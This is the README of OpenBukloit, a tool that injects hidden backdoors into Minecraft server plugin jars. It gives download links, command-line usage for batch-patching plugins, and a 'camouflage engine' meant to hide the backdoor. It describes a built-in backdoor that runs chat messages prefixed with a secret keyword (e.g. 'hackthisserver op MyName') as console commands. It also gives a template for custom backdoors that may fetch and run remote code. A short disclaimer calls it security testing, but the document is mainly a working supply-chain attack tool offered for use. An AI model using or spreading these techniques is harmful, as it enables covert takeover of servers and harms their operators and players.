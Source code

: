 <div align="center"><h1>OpenBukloit - Minecraft plugin backdoor injector</h1></div>

<div align="center"><img alt="Logo" src="logo.png"/></div>

<div align="center">
    <a href="https://github.com/VoxelHax/OpenBukloit/issues"><img alt="Open issues" src="https://img.shields.io/github/issues-raw/VoxelHax/OpenBukloit"/></a>
    <a href="https://github.com/Voxelhax/OpenBukloit/releases/latest"><img alt="GitHub downloads" src="https://img.shields.io/github/downloads/VoxelHax/OpenBukloit/total"></a>
    <img alt="Code size" src="https://img.shields.io/github/languages/code-size/VoxelHax/OpenBukloit"/>
    <a href="https://www.codefactor.io/repository/github/voxelhax/openbukloit"><img alt="CodeFactor" src="https://www.codefactor.io/repository/github/voxelhax/openbukloit/badge"/></a>
    <a href="https://discord.gg/xtaktPTzYp"><img alt="Discord" src="https://img.shields.io/discord/928214827095175199"></a>
</div>

<div align="center">
    <a href="https://github.com/Voxelhax/OpenBukloit/releases/latest"><img alt="Download" src="https://img.shields.io/badge/-DOWNLOAD_LATEST_RELEASE_(CLICK)-blue?style=for-the-badge"/></a>
</div>

<br>

<hr>

**Languages: [English](README.md), [Русский](lang/README_RU.md), [Українська](lang/README_UA.md)**

**OpenBukloit** is modern and powerful universal backdoor injector compatible with all Bukkit/Spigot/Paper/etc plugins. Its feature is ability to integrate with absolutely any plugin without the need to modify backdoor every time. Moreover, it provides powerful camouflage engine, which makes nearly impossible to find it without sufficient knowledge or advanced automated tools. OpenBukloit was developed to test the security systems of Minecraft servers, VoxelHax team is not responsible for its misuse.

This is a continuation of **[Bukloit](https://github.com/Rikonardo/Bukloit)** project, taking into account all the problems of the previous project and a completely different approach to development.

## OpenBukloit features
- **Full support for Bukkit and it's forks on any Minecraft version.**
- **Custom backdoor support.**
- **Automatic JDK downloading, so you don't need to care about Java version compatibility.**
- **Powerful camouflage engine, which makes it harder to find backdoor in plugin.**

## Installation
In order to use OpenBukloit you must have any Java version installed (but not lower than 8). OpenBukloit jar can be downloaded from [releases tab](https://github.com/Voxelhax/OpenBukloit/releases/latest). OpenBukloit jar can be downloaded from releases tab. OpenBukloit does not require any additional actions, just put jar file somewhere and use it from command line.

## Usage
To run OpenBukloit, open command prompt in the directory where OpenBukloit jar is located and type:

```sh
java -jar OpenBukloit.jar
```

After jar file name you can pass some arguments to configure injector:

| Short Argument | Long Argument | Description                                                                                                                                                                  | Type  |
|----------------|---------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------|
| -e             | --exploit     | Path to custom .java or compiled .class file, that will be used as backdoor.<br />**By default uses builtin backdoor.**                                                      | Value |
| -m             | --mode        | Mode. Can be single/multiple.<br />**Default: <ins>multiple</ins>.**<br />In multiple mode, modifies all files in the specified folder. In single - only the specified file. | Value |
| -i             | --input       | Path to input folder/file (mode dependent).<br />**Default: <ins>in</ins> (<ins>in.jar</ins> if mode is single).**                                                           | Value |
| -o             | --output      | Path to output folder/file (mode dependent).<br />**Default: <ins>out</ins> (<ins>out.jar</ins> if mode is single).**                                                        | Value |
| -r             | --replace     | Replace output file if it already exists.                                                                                                                                    | Flag  |

But these arguments are not enough to run OpenBukloit. You must also specify backdoor params. Because OpenBukloit supports injecting of custom backdoors, you must pass additional arguments that required by used backdoor.

## Builtin exploit

By default, OpenBukloit injects builtin backdoor. It is a simple backdoor that allows you to execute any commands as console by writing special keyword before command in chat.

Builtin backdoor params:

| Long Argument | Description                                       |
|---------------|---------------------------------------------------|
| --key         | Keyword, that triggers console command execution. |

Ingame usage for key set to "hackthisserver":

```
hackthisserver op MyName
```

This message sent to chat will be executed as console command and give op to MyName player.

**Here is some examples of using OpenBukloit with builtin backdoor:**

1. Patch all .jar files with the "#console" key from the "in" folder and save them into the "out" folder without replacement.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "#console"
```

2. Patch all files with the "hacktheserver" key from the "in" folder and save them into the "out" folder with replacement.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "hacktheserver" -r
```

3. Patch single file "PluginName.jar" with "#console" key and save it as "Output.jar" file with replacement.

```sh
java -jar OpenBukloit.jar -m single -i "PluginName.jar" -o "Output.jar" --key "#console" -r
```

## Writing custom exploit

You can also write your own backdoor. It should be a class with `public static void inject(JavaPlugin args)` method (JavaPlugin is from Bukkit API).

Here is a simple example:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, world!");
    }
}
```

`inject` method will be executed after plugin's `onEnable` method. You can do everything you want here, including downloading and running some arbitrary code from internet.

But you must know that there are some limitations:
- Currently, you can't use nested classes, there is must be only one class in exploit file.
- You shouldn't reference your exploit class inside it, like using it as method params, as a return value or as a field type.

You can take external params from command line, by using %placeholders%, thay will be replaced during injection:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, %name%!");
    }
}
```

And then inject it with command:

```sh
java -jar OpenBukloit.jar -e MyBackdoor.java --name world
```

Note, that we can pass our backdoor to OpenBukloit without compiling, and it will automatically compile it with Spigot API in compiletime classpool.